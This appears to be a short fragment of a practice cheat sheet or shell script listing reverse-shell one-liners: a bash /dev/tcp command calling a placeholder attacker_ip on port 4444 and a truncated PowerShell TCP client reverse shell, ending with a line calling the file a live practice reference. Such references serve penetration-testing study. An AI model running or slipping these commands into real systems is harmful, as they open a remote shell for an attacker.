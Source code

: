 # Bash Reverse Shell
# bash -i >& /dev/tcp/attacker_ip/4444 0>&1

# PowerShell Reverse Shell (encoded)
# powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('IP',4444);..."

echo "== ✅ Done. Use this file as a live practice reference. =="
